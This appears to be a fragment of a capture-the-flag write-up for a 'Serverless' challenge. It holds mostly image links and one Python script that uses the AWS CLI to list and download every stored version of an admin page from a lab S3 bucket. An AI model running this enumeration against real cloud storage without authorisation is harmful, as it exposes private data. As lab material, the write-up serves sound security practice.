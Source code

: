![1742408595348](images/Serverless/1742408595348.png)

flag1

```
import boto3
import subprocess

# Configure AWS CLI (if not already configured)
subprocess.run(["aws", "configure", "set", "aws_access_key_id", " "])
subprocess.run(["aws", "configure", "set", "aws_secret_access_key", " "])
subprocess.run(["aws", "configure", "set", "region", "us-east-1"])

# List all versions of admin/index.html
result = subprocess.run(
    ["aws", "s3api", "list-object-versions", "--bucket", "redteamapp-bucket", "--prefix", "admin/index.html"],
    capture_output=True,
    text=True
)

# Parse versions and download
versions = result.stdout.split("\n")
for line in versions:
    if "VersionId" in line:
        version_id = line.split(": ")[1].strip('",')
        filename = f"admin_index_{version_id[:6]}.html"
        subprocess.run([
            "aws", "s3api", "get-object",
            "--bucket", "redteamapp-bucket",
            "--key", "admin/index.html",
            "--version-id", version_id,
            filename
        ])
        print(f"Downloaded: {filename}")
```

![1742409977654](images/Serverless/1742409977654.png)

![1742410002498](images/Serverless/1742410002498.png)
